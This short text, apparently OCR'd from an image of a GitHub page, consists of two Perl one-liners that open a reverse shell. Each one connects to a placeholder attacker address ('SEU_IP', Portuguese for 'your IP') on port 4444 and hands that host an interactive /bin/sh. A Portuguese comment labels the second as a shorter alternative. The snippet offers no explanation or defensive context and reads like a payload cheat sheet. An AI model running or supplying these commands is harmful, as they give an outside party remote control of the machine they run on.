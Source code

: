 perl -e 'use Socket;$i="SEU_IP";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Alternativa mais curta
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"SEU_IP:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
